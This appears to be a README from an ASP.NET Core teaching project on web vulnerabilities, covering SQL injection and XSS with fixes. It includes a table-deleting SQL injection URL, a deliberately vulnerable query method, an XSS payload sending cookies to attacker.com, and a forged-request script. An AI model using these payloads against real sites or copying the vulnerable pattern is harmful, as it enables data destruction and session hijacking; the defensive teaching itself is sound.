# Typical web app security vulnerabilities
#Table of contents
* [Injection](#injection)

##Injection
Injection flaws are very prevalent, particularly in legacy code. Injection vulnerabilities are often found in SQL, LDAP, XPath, or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages, and ORM queries.
Injection flaws are easy to discover when examining code. Scanners and fuzzers can help attackers find injection flaws.
Injection can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, or denial of access. Injection can sometimes lead to complete host takeover.

### Protection
* use entity framework Linq Queries
* don't set params directly into SQL string

### Sql Injection sample
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:

```var sql = "SELECT * FROM product WHERE sku='{sku}' LIMIT 1";```

Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, 
(e.g. EF Core FromSql Method):

```
SecurityWeakness.Infrastructure.SQL.NotSecureProductSqlRepository:

public Product GetSingleBySku(string sku)
{
    var sql = $"SELECT * FROM product WHERE sku='{sku}' LIMIT 1";
    return context.Products.FromSql(sql).ToArray().Single();
}
```

In both cases, the attacker modifies the ‘sku’ parameter value in their browser to send:

``` 
http://localhost:62384/NotSecureProducts/Product?sku=p2';DELETE from product;SELECT '1
```

This changes the meaning of both queries to delete all the records from the product table. More dangerous attacks could modify or delete data, or even invoke stored procedures.

### Secure sample
Rewrite code using Linq Query, or use parameterization for raw SQL queries 
```
SecurityWeakness.Infrastructure.SQL.SecureProductSqlRepository:
public Product GetSingleBySku(string sku)
{
    return context.Products.FromSql($"SELECT * FROM {TableName} WHERE sku={{0}} LIMIT 1", sku).ToArray().Single();
}
```

## Broken Authentication and Session Management

## Cross-Site Scripting (XSS)
Cross Site Scripting (XSS) is a widespread vulnerability that affects many web applications. XSS attacks consist of injecting malicious client-side scripts into a website and using the website as a propagation method.
XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are two different types of XSS flaws: 1) Stored and 2) Reflected, and each of these can occur on the a) Server or b) on the Client.

Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS is very difficult to identify.

Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.

### Protection
* protect web inputs with HTML sanitizers
* remove un secure htmltags (style,script etc) before save in database
* protect cookies with Secure and Http only attributes in http header

### Xss Attack sample
* Hijack a user’s session
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";```

The attacker modifies the 'CC' parameter in their browser to:

```'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.```

* **asp.net core** protect it cookie from this kind of vulnerability, to enable cookie for document.cookie you need set ``` options.Cookie.HttpOnly=false```
```
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.HttpOnly = true;
    });
```

This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See A8 for info on CSRF.

* Perform unauthorized activities
If the HTTPOnly cookie attribute is set, we cannot steal the cookies through JavaScript. However, using the XSS attack, we can still perform unauthorized actions inside the application on behalf of the user.
```
  <script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:62384/NotSecureProducts/DeleteComment',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('sku=p1&productid=1&commentid=1');
</script>
```

* Phishing to steal user credentials
XSS can also be used to inject a form into the vulnerable page and use this form to collect user credentials. This type of attack is called phishing.

* Capture the key strokes by injecting a keylogger
In this attack scenario we will inject a JavaScript keylogger into the vulnerable web page and we will capture all the key strokes of the user within the current page.

First of all, we will create a separate JavaScript file and we will host it on the attacker controlled server. We need this file because the payload is too big to be inserted in the URL and we avoid encoding and escaping errors

## Broken Access Control
## Security Misconfiguration
## Sensitive Data Exposure
## Cross-Site Request Forgery (CSRF)
## Using Components with Known Vulnerabilities
Known vulnerabilities are vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers. 
From the moment of publication , a vulnerability can be exploited by hackers who find the documentation. According to OWASP, the problem of using components with known vulnerabilities is highly prevalent

## Resources
* [OWASP .NET](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md)
* [ASP.NET Core Security](https://docs.microsoft.com/en-us/aspnet/core/security/?view=aspnetcore-2.2)
* [OWASP Top Ten 2017](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project)
* [Cross Site Scripting (XSS)](https://blog.sucuri.net/2019/01/owasp-top-10-security-risks-part-iv.html)
* [Cross Site Scripting (XSS) Asp net core](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-2.2)
* [xss-attacks-practical-scenarios](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [HTTP only, Secure cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

